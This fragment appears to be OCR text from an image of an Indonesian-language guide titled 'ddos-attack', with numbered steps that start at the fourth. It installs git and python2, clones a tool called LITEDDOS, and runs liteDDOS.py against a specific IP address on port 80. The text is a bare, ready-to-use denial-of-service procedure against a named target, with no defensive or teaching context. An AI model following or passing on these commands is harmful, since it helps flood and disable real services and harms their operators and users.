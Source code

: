 # ddos-attack
pkg install git

KE-EMPAT
$ pkg install python2

KELIMA🚨
$ git clone https://github.com/arkan/LITEDDOS

KE-ENAM🚨
$ cd LITEDDOS

KETUJUH🚨
$ python2 liteDDOS.py  104.18.37.60 80 100

